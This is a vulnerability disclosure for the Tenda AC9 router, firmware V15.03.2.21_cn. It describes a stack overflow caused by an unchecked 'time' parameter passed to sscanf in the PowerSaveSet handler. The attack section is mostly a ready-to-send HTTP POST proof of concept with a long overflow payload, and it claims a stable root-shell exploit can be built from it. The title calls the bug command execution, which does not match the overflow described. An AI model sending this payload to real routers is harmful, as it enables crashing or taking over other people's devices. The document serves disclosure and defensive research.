


# Tenda AC9 router 16 V15.03.2.21_cn Command Execution Vulnerability

## Overview

- Manufacturer's website infomation: https://www.tenda.com.cn/profile/contact.html
- Firmware download address: https://www.tenda.com.cn/download/default.html

## Affected version

V15.03.2.21_cn

## Vulnerability details



The program passes the content of the time parameter to v13, and then uses the sscanf function to format the content matched by the regular expression into the stack of v10, v9, v8, and v7. There is no size judgment, which leads to a stack overflow vulnerability.

## Recurring vulnerabilities and POC

ln order to reproduce the vulnerability, the following steps can be followed:

​	1.Use the fat simulation firmware V15.03.2.21_cn

​	2.Attack with the following POC attacks

```
POST /goform/PowerSaveSet HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:96.0) Gecko/20100101 Firefox/96.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 1075
Origin: http://192.168.1.1
Connection: close
Referer: http://192.168.1.1/sleep_mode.html?random=0.37181955385666365&
Cookie: password=7c90ed4e4d4bf1e300aa08103057ccbcmik1qw

powerSavingEn=1&time=00aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaaczaadbaadcaaddaadeaadfaadgaadhaadiaadjaadkaadlaadmaadnaadoaadpaadqaadraadsaadtaaduaadvaadwaadxaadyaadzaaebaaecaaedaaeeaaefaaegaaehaaeiaaejaaekaaelaaemaaenaaeoaaepaaeqaaeraaesaaetaaeuaaevaaewaaexaaeyaaeaaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaaczaadbaadcaaddaadeaadfaadgaadhaadiaadjaadkaadlaadmaadnaadoaadpaadqaadraadsaadtaaduaadvaadwaadxaadyaadzaaebaaecaaedaaeeaaefaaegaaehaaeiaaejaaekaaelaaemaaenaaeoaaepaaeqaaeraaesaaetaaeuaaevaaewaaexaaeyaae%3A00-01%3A00&ledCloseType=allClose&powerSaveDelay=1
```

Finally, you can write exp, which can achieve a very stable effect of obtaining the root shell



Consistent with Tenda AC6 router 3, 4 and 5

